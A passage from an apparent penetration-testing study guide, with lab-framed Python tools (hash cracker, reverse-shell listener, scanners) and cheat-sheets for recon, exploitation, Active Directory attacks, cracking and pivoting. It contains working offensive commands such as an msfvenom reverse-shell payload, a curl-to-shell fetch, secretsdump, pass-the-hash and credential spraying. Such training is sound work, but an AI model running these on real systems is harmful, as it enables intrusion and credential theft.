#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 7: Hash Identifier and Wordlist Cracker

Educational cracking against **hashes you captured in labs** — never use on stolen real-world dumps.

```python
#!/usr/bin/env python3
"""Hash type identifier + simple wordlist cracker (educational, lab hashes only)."""
import argparse
import hashlib
import sys

PATTERNS = [
    (32, "MD5", hashlib.md5),
    (40, "SHA1", hashlib.sha1),
    (64, "SHA256", hashlib.sha256),
    (56, "SHA224", hashlib.sha224),
    (96, "SHA384", hashlib.sha384),
    (128, "SHA512", hashlib.sha512),
]


def identify(h: str) -> list[str]:
    h = h.strip().lower()
    if h.startswith("$2"):
        return ["bcrypt"]
    if h.startswith("$6$"):
        return ["sha512crypt"]
    if h.startswith("$5$"):
        return ["sha256crypt"]
    if h.startswith("$1$"):
        return ["md5crypt"]
    ln = len(h)
    return [name for length, name, _ in PATTERNS if length == ln]


def crack(h: str, wordlist: str, algo: str) -> str | None:
    func = next((f for _, name, f in PATTERNS if name == algo), None)
    if not func:
        return None
    target = h.strip().lower()
    with open(wordlist, errors="ignore") as f:
        for line in f:
            word = line.strip()
            if not word:
                continue
            if func(word.encode()).hexdigest() == target:
                return word
    return None


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("hash", help="Hash from lab /etc/shadow or CTF")
    ap.add_argument("-w", "--wordlist", help="Wordlist for crack attempt")
    ap.add_argument("-a", "--algo", help="Force algorithm (MD5, SHA256, ...)")
    args = ap.parse_args()
    guesses = [args.algo] if args.algo else identify(args.hash)
    print(f"[*] Possible types: {', '.join(guesses) or 'unknown'}")
    if args.wordlist and guesses:
        for g in guesses:
            if g in ("bcrypt", "sha512crypt", "sha256crypt", "md5crypt"):
                print(f"[*] Skipping {g} — use hashcat/john for crypt formats")
                continue
            pw = crack(args.hash, args.wordlist, g)
            if pw:
                print(f"[+] Cracked ({g}): {pw}")
                return 0
        print("[*] Not in wordlist")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 8: Log Parser for IOCs

Extract IPs, domains, and suspicious patterns from logs during IR exercises or lab analysis.

```python
#!/usr/bin/env python3
"""Log IOC extractor for authorized log files."""
import argparse
import re
import sys
from collections import Counter

IPV4 = re.compile(r"\b(?:\d{1,3}\.){3}\d{1,3}\b")
DOMAIN = re.compile(r"\b[a-zA-Z0-9][a-zA-Z0-9.-]+\.[a-zA-Z]{2,}\b")
FAILED = re.compile(r"Failed password|authentication failure|401|403", re.I)


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("logfile")
    ap.add_argument("--top", type=int, default=15)
    args = ap.parse_args()
    ips: Counter = Counter()
    domains: Counter = Counter()
    fails = 0
    with open(args.logfile, errors="ignore") as f:
        for line in f:
            if FAILED.search(line):
                fails += 1
            for ip in IPV4.findall(line):
                if not ip.startswith(("127.", "0.", "255.")):
                    ips[ip] += 1
            for dom in DOMAIN.findall(line):
                if "example.com" not in dom:
                    domains[dom.lower()] += 1
    print(f"[*] Failed auth / error lines: {fails}")
    print(f"[*] Top {args.top} IPs:")
    for ip, c in ips.most_common(args.top):
        print(f"  {ip}: {c}")
    print(f"[*] Top {args.top} domains:")
    for d, c in domains.most_common(args.top):
        print(f"  {d}: {c}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 9: Reverse Shell Listener (LAB ONLY)

**LAB ONLY.** Catch reverse shells in isolated VMs. Never deploy against systems without authorization.

```python
#!/usr/bin/env python3
"""
LAB ONLY — reverse shell listener for isolated practice.
NEVER use against systems you do not own or have explicit written authorization to test.
"""
import argparse
import socket
import sys
import threading


def handle(conn: socket.socket, addr) -> None:
    print(f"[+] Connection from {addr[0]}:{addr[1]} (lab)")
    conn.send(b"\n[*] Lab listener connected. Type commands.\n$ ")
    try:
        while True:
            data = conn.recv(4096)
            if not data:
                break
            sys.stdout.write(data.decode(errors="replace"))
            sys.stdout.flush()
    finally:
        conn.close()


def main() -> int:
    ap = argparse.ArgumentParser(description="LAB ONLY reverse shell listener")
    ap.add_argument("-H", "--host", default="0.0.0.0")
    ap.add_argument("-p", "--port", type=int, default=4444)
    args = ap.parse_args()
    print("[!] LAB ONLY — authorized isolated environment required")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((args.host, args.port))
    s.listen(5)
    print(f"[*] Listening on {args.host}:{args.port}")
    while True:
        conn, addr = s.accept()
        threading.Thread(target=handle, args=(conn, addr), daemon=True).start()


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 10: Banner Grabber

Grab service banners from open ports on authorized targets.

```python
#!/usr/bin/env python3
"""TCP banner grabber — authorized targets only."""
import argparse
import socket
import sys


def grab(host: str, port: int, timeout: float = 3.0) -> str:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((host, port))
    if port in (80, 8080, 8000):
        s.sendall(b"HEAD / HTTP/1.0\r\nHost: lab\r\n\r\n")
    elif port == 443:
        s.sendall(b"\n")
    try:
        data = s.recv(4096)
        return data.decode(errors="replace").strip()
    finally:
        s.close()


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("host")
    ap.add_argument("-p", "--ports", default="21,22,23,25,80,443,445,3306,3389")
    args = ap.parse_args()
    for p in [int(x) for x in args.ports.split(",")]:
        try:
            banner = grab(args.host, p)
            print(f"[+] {p}/tcp: {banner[:200]}")
        except OSError as e:
            print(f"[-] {p}/tcp: {e}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 11: Web Crawler

Map linked pages within scope on authorized web apps. Respects same-host by default.

```python
#!/usr/bin/env python3
"""Simple same-origin web crawler — authorized sites only."""
import argparse
import re
import sys
import urllib.parse
import urllib.request
from collections import deque

LINK_RE = re.compile(r'href=[\'"]([^#\'"]+)[\'"]', re.I)


def normalize(base: str, link: str) -> str | None:
    full = urllib.parse.urljoin(base, link)
    b = urllib.parse.urlparse(base)
    u = urllib.parse.urlparse(full)
    if u.scheme not in ("http", "https"):
        return None
    if u.netloc != b.netloc:
        return None
    return urllib.parse.urlunparse(u._replace(fragment=""))


def fetch(url: str, timeout: int) -> str:
    req = urllib.request.Request(url, headers={"User-Agent": "LabCrawler/1.0"})
    with urllib.request.urlopen(req, timeout=timeout) as resp:
        return resp.read().decode(errors="replace")


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("start_url")
    ap.add_argument("-m", "--max-pages", type=int, default=50)
    ap.add_argument("--timeout", type=int, default=8)
    args = ap.parse_args()
    seen: set[str] = set()
    q: deque[str] = deque([args.start_url])
    while q and len(seen) < args.max_pages:
        url = q.popleft()
        if url in seen:
            continue
        seen.add(url)
        try:
            html = fetch(url, args.timeout)
            print(f"[+] {url} ({len(html)} bytes)")
            for m in LINK_RE.findall(html):
                n = normalize(args.start_url, m)
                if n and n not in seen:
                    q.append(n)
        except Exception as e:
            print(f"[-] {url}: {e}")
    print(f"[*] Crawled {len(seen)} pages")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 12: SSL/TLS Checker

Inspect certificate validity and protocol on authorized HTTPS endpoints.

```python
#!/usr/bin/env python3
"""SSL/TLS certificate checker — authorized hosts only."""
import argparse
import socket
import ssl
import sys
from datetime import datetime, timezone


def check(host: str, port: int, timeout: int = 8) -> None:
    ctx = ssl.create_default_context()
    with socket.create_connection((host, port), timeout=timeout) as sock:
        with ctx.wrap_socket(sock, server_hostname=host) as ssock:
            cert = ssock.getpeercert()
            proto = ssock.version()
            cipher = ssock.cipher()
    print(f"[*] Protocol: {proto}")
    print(f"[*] Cipher: {cipher[0]} ({cipher[2]} bits)")
    subj = dict(x[0] for x in cert.get("subject", ()))
    print(f"[*] Subject CN: {subj.get('commonName', '-')}")
    not_after = cert.get("notAfter")
    if not_after:
        exp = datetime.strptime(not_after, "%b %d %H:%M:%S %Y %Z").replace(tzinfo=timezone.utc)
        days = (exp - datetime.now(timezone.utc)).days
        print(f"[*] Expires: {not_after} ({days} days)")
        if days < 30:
            print("[!] Certificate expires within 30 days")
    sans = [x[1] for x in cert.get("subjectAltName", ()) if x[0] == "DNS"]
    if sans:
        print(f"[*] SANs: {', '.join(sans[:10])}")


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("host")
    ap.add_argument("-p", "--port", type=int, default=443)
    args = ap.parse_args()
    try:
        check(args.host, args.port)
    except ssl.SSLError as e:
        print(f"[!] TLS error: {e}")
        return 1
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 13: DNS Zone Transfer Checker

Test for AXFR misconfiguration on **authorized** DNS servers only.

```python
#!/usr/bin/env python3
"""DNS zone transfer (AXFR) test — authorized domains only."""
import argparse
import sys

try:
    import dns.query
    import dns.zone
except ImportError:
    print("[!] pip install dnspython")
    sys.exit(1)


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("domain", help="Domain you are authorized to test")
    ap.add_argument("ns", help="Nameserver hostname")
    args = ap.parse_args()
    try:
        z = dns.zone.from_xfr(dns.query.xfr(args.ns, args.domain))
        print(f"[!] Zone transfer ALLOWED on {args.ns} — critical misconfiguration")
        for name, _ in z.nodes.items():
            print(f"  {name}")
        return 1
    except Exception as e:
        print(f"[*] Transfer denied or failed (expected): {e}")
        return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 14: HTTP Method Enumerator

Discover allowed HTTP methods (PUT, DELETE, TRACE) on in-scope endpoints.

```python
#!/usr/bin/env python3
"""HTTP method enumerator — authorized URLs only."""
import argparse
import sys
import urllib.error
import urllib.request

METHODS = ["GET", "POST", "PUT", "DELETE", "OPTIONS", "TRACE", "PATCH", "HEAD"]


def probe(url: str, method: str, timeout: int) -> int | str:
    req = urllib.request.Request(url, method=method, headers={"User-Agent": "LabMethodEnum/1.0"})
    try:
        with urllib.request.urlopen(req, timeout=timeout) as resp:
            return resp.status
    except urllib.error.HTTPError as e:
        return e.code
    except urllib.error.URLError as e:
        return str(e)


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("url")
    ap.add_argument("--timeout", type=int, default=8)
    args = ap.parse_args()
    for m in METHODS:
        r = probe(args.url, m, args.timeout)
        flag = "!" if m in ("PUT", "DELETE", "TRACE") and isinstance(r, int) and r < 400 else " "
        print(f"[{flag}] {m}: {r}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 15: Robots.txt and Sitemap Fetcher

Quick OSINT on authorized sites — robots.txt often reveals hidden paths.

```python
#!/usr/bin/env python3
"""Fetch robots.txt and sitemap.xml — authorized domains only."""
import argparse
import sys
import urllib.error
import urllib.parse
import urllib.request


def get(url: str, timeout: int = 8) -> str | None:
    req = urllib.request.Request(url, headers={"User-Agent": "LabRecon/1.0"})
    try:
        with urllib.request.urlopen(req, timeout=timeout) as resp:
            return resp.read().decode(errors="replace")
    except urllib.error.HTTPError as e:
        return f"[HTTP {e.code}]"
    except urllib.error.URLError as e:
        return f"[Error: {e}]"


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("base_url", help="e.g. https://yourlab.local")
    args = ap.parse_args()
    base = args.base_url.rstrip("/")
    for path in ("/robots.txt", "/sitemap.xml", "/sitemap_index.xml"):
        url = base + path
        body = get(url)
        print(f"\n=== {url} ===")
        print(body[:4000] if body else "empty")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


## Script 16: File Integrity Hasher

Generate SHA256 baselines for lab binaries before/after compromise exercises.

```python
#!/usr/bin/env python3
"""File hash baseline tool for lab integrity checks."""
import argparse
import hashlib
import sys
from pathlib import Path


def sha256(path: Path) -> str:
    h = hashlib.sha256()
    with open(path, "rb") as f:
        for chunk in iter(lambda: f.read(65536), b""):
            h.update(chunk)
    return h.hexdigest()


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("paths", nargs="+", help="Files or directories (lab only)")
    ap.add_argument("-o", "--output", help="Write baseline file")
    args = ap.parse_args()
    lines: list[str] = []
    for p in args.paths:
        path = Path(p)
        files = [path] if path.is_file() else sorted(path.rglob("*"))
        for f in files:
            if f.is_file():
                digest = sha256(f)
                line = f"{digest}  {f}"
                lines.append(line)
                print(line)
    if args.output:
        Path(args.output).write_text("\n".join(lines) + "\n")
        print(f"[*] Wrote {args.output}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

#### Usage (Lab Target)

```bash
# python3 script.py <lab-args>  # only on authorized lab
```


---

# Part 4: Recon & OSINT Arsenal

Recon is 80% of real engagements. Stay **passive** until scope permits active probing. Cross-ref **NETWORKING-MASTER-GUIDE.md Part 5** (DNS) and **CYBERSEC-MASTER-GUIDE.md Part 8**.

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%\nflowchart LR\n  P[Passive OSINT] --> A[Active DNS/HTTP]\n  P --> Shodan[Shodan/Censys]\n  A --> Scan[nmap/masscan]
```

### theHarvester

Email and subdomain gathering

```bash
theHarvester -d yourdomain.com -b all
```

### Amass

Deep subdomain enum

```bash
amass enum -passive -d yourdomain.com
```

### Subfinder

Fast passive subs

```bash
subfinder -d yourdomain.com -silent
```

### httpx

Probe live HTTP

```bash
cat subs.txt | httpx -status-code -title
```

### katana

Crawl discovered URLs

```bash
katana -u https://lab.local -d 3
```

### gau

Archive URLs

```bash
gau yourdomain.com | httpx
```

### Shodan

Internet-wide device search

```bash
shodan search 'hostname:yourdomain.com'
```

### Censys

Cert/host search

```bash
Censys CLI / web UI for cert transparency
```

### recon-ng

Modular OSINT

```bash
recon-ng; marketplace install all; modules load
```

### SpiderFoot

Automated correlation

```bash
spiderfoot -s yourdomain.com -m all
```

### Maltego

Graph OSINT (concept)

```bash
Transforms: domain -> DNS -> email -> person
```

## Case Study: Passive Recon on Owned Domain

| Source | Finding | Action |
| --- | --- | --- |
| Certificate Transparency | dev.api.example.com | Add to scope test list |
| theHarvester | admin@example.com | Phishing sim if in RoE |
| Shodan | Exposed management port | Critical finding draft |

## OSINT Framework Workflow

Use [OSINT Framework](https://osintframework.com/) as a taxonomy — not a license to collect data without purpose. Map each node to your RoE.

| Category | Tool Examples | Authorization Note |
| --- | --- | --- |
| Domain | Amass, subfinder, dig | Owned domain or bounty scope |
| People | theHarvester, LinkedIn (manual) | Often restricted in bounty |
| Infrastructure | Shodan, Censys, BGP.tools | Verify ToS |
| Web | gau, wayback, httpx | Archive URLs only in scope |
| Email | hunter.io pattern (manual) | No bulk harvesting outside RoE |

> **Never Forget:** Document **every** OSINT source — clients ask where data came from.

---

# Part 5: Scanning & Enumeration

Scanning maps the attack surface. Tune timing for fragile networks per **NETWORKING-MASTER-GUIDE.md Part 6**.

## Nmap Flag Reference

| Flag | Purpose | Notes |
| --- | --- | --- |
| -sn | Host discovery | Ping sweep without port scan |
| -Pn | Skip discovery | Treat host as up |
| -sS | SYN scan | Stealth; needs root |
| -sT | Connect scan | No root required |
| -sU | UDP scan | Slow; DNS/SNMP |
| -sV | Version detection | Service banners |
| -sC | Default scripts | Safe NSE with -sV |
| -O | OS detection | Fingerprint OS |
| -A | Aggressive | -O -sV -sC --traceroute |
| -p | Ports | -p 22,80 or -p- all |
| --top-ports | Common ports | Top N ports |
| -T0..T5 | Timing | T4 default |
| -iL | Target list | File of hosts |
| -oA | All output | normal, xml, grepable |
| --script | NSE | Named scripts or categories |
| --open | Open only | Filter output |
| -6 | IPv6 | Dual-stack scans |

## NSE Scripts

| Script | Purpose | When |
| --- | --- | --- |
| smb-enum-shares | List SMB shares | File servers |
| smb-vuln-ms17-010 | EternalBlue check | Patch verification |
| http-enum | Web dirs | Quick surface |
| http-title | Page titles | Admin panels |
| ssl-cert | Cert details | SAN subdomains |
| dns-brute | DNS brute | Subdomains |
| ftp-anon | Anonymous FTP | Misconfigs |
| ssh-auth-methods | SSH auth | Key vs password |
| vuln | Vuln category | Broad checks |
| snmp-info | SNMP info | Community success |

```bash
nmap -sC -sV -p- -oA fullscan 10.10.10.0/24
masscan 10.10.10.0/24 -p1-65535 --rate 1000
rustscan -a 10.10.10.5 -- -sC -sV
naabu -host 10.10.10.5 -top-ports 1000
```

## SMB / LDAP / SNMP Enumeration

```bash
enum4linux-ng -A 10.10.10.5
smbclient -L //10.10.10.5 -N
rpcclient -U "" 10.10.10.5
snmpwalk -v2c -c public 10.10.10.5
ldapsearch -x -H ldap://dc01.corp.local -b "DC=corp,DC=local"
```

## Case Study: HTB Active — Initial Enum

| Step | Command | Result |
| --- | --- | --- |
| 1 | nmap -sC -sV | Kerberos, LDAP, SMB |
| 2 | enum4linux | Users and shares |
| 3 | BloodHound ingest | Path to DA |

## Masscan / Rustscan / Naabu Flag Reference

| Tool | Flag | Purpose |
| --- | --- | --- |
| masscan | --rate | Packets per second |
| masscan | -p | Port range |
| rustscan | -a | Target address |
| rustscan | -- | Nmap args after -- |
| naabu | -top-ports | Top N ports |
| naabu | -silent | Minimal output |

## SMB Enumeration Deep Dive

| Task | Command | Notes |
| --- | --- | --- |
| Share listing | smbclient -L //host -N | Null session if allowed |
| Mount share | mount -t cifs //host/share /mnt -o user=guest | Read-only review |
| RPC users | rpcclient -U '' host -c enumdomusers | Domain user list |
| Policy info | enum4linux-ng -P host | Password policy for spray planning |

---

# Part 6: Web Application Hacking Tools

Burp Suite workflow: proxy -> spider -> intruder -> repeater. Pair with **CYBERSEC-MASTER-GUIDE.md Part 6** OWASP depth.

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%\nflowchart LR\n  B[Browser] --> P[Burp Proxy]\n  P --> S[Target Server]\n  P --> R[Repeater/Intruder]
```

## Burp Suite Workflow (Authorized Scope)

| Feature | Use | Notes |
| --- | --- | --- |
| Target scope | Include in-scope URLs only | Prevents accidental OOS testing |
| Proxy intercept | Toggle with Ctrl+I | Modify requests before server |
| Repeater | Ctrl+R from proxy | Manual payload iteration |
| Intruder | Cluster bomb / pitchfork | Fuzzing — rate limit on prod |
| Collaborator | OOB DNS/HTTP | SSRF and blind XSS confirmation |
| Logger++ | Export all traffic | Evidence for reports |

### Burp Suite

Intercept, scan (authorized), Collaborator for OOB

```bash
burpsuite &  # set scope to in-scope host only
```

| Flag / Option | Purpose |
| --- | --- |
| Target scope | Limit to in-scope URLs |
| Repeater | Manual payload testing |
| Intruder | Cluster bomb fuzzing |

### OWASP ZAP

Free alternative

```bash
zaproxy -daemon -port 8080
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### ffuf

Fuzz dirs, params, vhosts

```bash
ffuf -u http://lab/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

| Flag / Option | Purpose |
| --- | --- |
| -w | Wordlist |
| -fc | Filter status codes |
| -recursion | Recursive dirs |

### feroxbuster

Recursive discovery

```bash
feroxbuster -u http://lab -w wordlist.txt
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### sqlmap

SQLi automation — strict scope

```bash
sqlmap -u 'http://lab/page?id=1' --batch --level=1
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### nuclei

Template scanning

```bash
nuclei -u http://lab -t cves/
```

| Flag / Option | Purpose |
| --- | --- |
| -t | Templates |
| -severity | critical,high |
| -rl | Rate limit |

### arjun

Hidden parameters

```bash
arjun -u http://lab/search
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### commix

Command injection

```bash
commix -u 'http://lab/cmd?ip=127.0.0.1'
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 7: Exploitation Frameworks & Exploit Research

Understand exploit lifecycle: discover -> PoC -> weaponize (lab) -> report.

### Metasploit

Module search and use

```bash
msfconsole; search samba; use exploit/...; set RHOSTS; run
```

| Flag / Option | Purpose |
| --- | --- |
| search | Find modules |
| set RHOSTS | Target |
| set LHOST | Your lab IP |

### searchsploit

Local Exploit-DB

```bash
searchsploit apache 2.4; searchsploit -m 12345
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### msfvenom

Lab payloads only

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -o lab.elf
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Cobalt Strike

Commercial red team C2 (concept)

```bash
Licensed enterprise tool — not for unauthorized use
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Sliver / Havoc

Open-source C2 alternatives (lab)

```bash
Team server + implant in isolated lab only
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 8: Active Directory & Internal Network

Authorized internal pentest methodology. Defensive view: **CYBERSEC-MASTER-GUIDE.md Part 14**.

### BloodHound

Attack path analysis

```bash
SharpHound ingest; BloodHound CE queries
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Impacket

secretsdump, psexec, GetUserSPNs

```bash
impacket-secretsdump corp/user:pass@dc01
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### CrackMapExec

SMB/WinRM spray and exec

```bash
crackmapexec smb 10.10.10.0/24 -u users.txt -p pass.txt
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### evil-winrm

WinRM shell

```bash
evil-winrm -i 10.10.10.5 -u admin -p pass
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Kerberoasting

SPN ticket crack (lab)

```bash
GetUserSPNs.py corp/user:pass -request
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### AS-REP roasting

Pre-auth disabled accounts

```bash
GetNPUsers.py corp/ -usersfile users.txt
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Pass-the-Hash

Attacker technique + detection

```bash
wmiexec.py -hashes :NTLM admin@10.10.10.5
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Responder

LLMNR poison — lab awareness only

```bash
Never on client net without explicit RoE
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 9: Password & Credential Attacks

Only on hashes/credentials captured under authorization.

## Hashcat Mode Reference (Lab Hashes)

| Mode | Type | Notes |
| --- | --- | --- |
| 0 | MD5 | Fast; legacy apps |
| 1000 | NTLM | Windows AD dumps (authorized) |
| 1800 | sha512crypt | Linux /etc/shadow |
| 3200 | bcrypt | Web app hashes |
| 13100 | Kerberos TGS-REP | Kerberoast tickets |
| 18200 | Kerberos AS-REP | AS-REP roast |

### hashcat

GPU cracking

```bash
hashcat -m 1000 ntlm.txt wordlist.txt
```

| Flag / Option | Purpose |
| --- | --- |
| -m | Hash mode |
| -a | Attack mode |
| --show | Show cracked |

### john

CPU cracking

```bash
john --wordlist=rockyou.txt hashes.txt
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### hydra

Online brute — lab/rate-limited

```bash
hydra -l admin -P pass.txt ssh://lab.local
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Medusa

Parallel login brute

```bash
medusa -h lab -u admin -P pass.txt -M ssh
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### kerbrute

User enum

```bash
kerbrute userenum -d corp.local users.txt
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 10: Post-Exploitation & Pivoting

Establish persistence awareness for blue team — report what attackers could do.

### LinPEAS / WinPEAS

Automated privesc enum

```bash
curl -L linpeas.sh | sh  # lab target
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### GTFOBins / LOLBAS

Living-off-the-land

```bash
Lookup binary abuse for Linux/Windows
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### chisel / ligolo-ng

Pivot tunnels

```bash
chisel server -p 8000 --reverse; client R:1080:socks
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### SOCKS proxy

Route tools through foothold

```bash
proxychains nmap -sT -Pn 10.0.0.0/24
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### mimikatz

Credential dump (lab + detection)

```bash
Understand LSASS protection and Credential Guard
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 11: Wireless, Social Engineering, Physical

Only within explicit RoE — many programs exclude SE entirely.

### aircrack-ng

WPA handshake crack (own lab AP)

```bash
airodump-ng + aireplay-ng on isolated AP
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### WiFi Pineapple

Awareness of rogue AP attacks

```bash
Document for client awareness training
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Social engineering

Phishing sim under contract

```bash
Never ad-hoc phishing outside program
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Physical

Badge cloning, tailgating tests

```bash
Requires written physical test authorization
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 12: Cloud Hacking (Authorized Assessment)

See **CYBERSEC-MASTER-GUIDE.md Part 10** and **NETWORKING-MASTER-GUIDE.md Part 8**.

### Pacu

AWS exploitation framework

```bash
pacu --profile lab
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### ScoutSuite

Multi-cloud audit

```bash
scout aws --report-dir ./scout
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Prowler

CIS benchmark scans

```bash
prowler aws
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Metadata SSRF

Lab chain: SSRF -> 169.254.169.254

```bash
Test only on your own cloud lab
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### IAM privesc

Overprivileged roles

```bash
Enumerate PassRole, sts:AssumeRole paths
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 13: C2, OPSEC & Anti-Forensics

Professional red team operates with legal scope and debrief.

### C2 infrastructure

Redirectors, domain fronting awareness

```bash
Separate attack infra from personal IP
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### OPSEC

Split personas, burnable VPS

```bash
Never C2 from home IP on client tests
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Anti-forensics

Detection awareness only

```bash
Timestomp, log deletion — blue team detects these
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Threat intel

Map TTPs to ATT&CK

```bash
CYBERSEC-MASTER-GUIDE.md Part 1 ATT&CK section
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 14: Lab Setup — Kali, Parrot, Docker, HTB/THM/VulnHub

Isolated lab network — never bridge to production.

### Kali Linux

Default pentest distro

```bash
Weekly apt update; snapshot before labs
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Parrot OS

Lightweight alternative

```bash
Same tool categories as Kali
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### Docker targets

Vulnerable apps in containers

```bash
docker run -p 8080:80 vulnerables/web-dvwa
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

### HTB / THM / VulnHub

Legal practice targets

```bash
VPN connect; document every machine
```

| Flag / Option | Purpose |
| --- | --- |
| — | See tool manual |

## Case Study Notes

Apply lessons from authorized engagements and lab writeups — never replicate on production without scope.

> **Never Forget:** Stay in scope. One out-of-scope click can end a career.

---

# Part 15: Ground to Hero Roadmap

24-month plan from zero to OSCP-ready operator and bug bounty contributor.

## Month-by-Month Plan (24 Months)

| Month | Focus | Activities | Deliverable |
| --- | --- | --- | --- |
| 1 | Ethics + Linux CLI | CYBERSEC Part 2; 3 THM intro rooms | Written RoE summary |
| 2 | Networking + lab | NETWORKING Parts 2-4; Kali VM | Lab network diagram |
| 3 | Python basics | Part 3 scripts 1-5; Git repo | Port scanner on lab target |
| 4 | Recon fundamentals | Part 4; passive OSINT on owned domain | OSINT report template |
| 5 | Scanning | Part 5; nmap NSE drills | 5 HTB easy boxes |
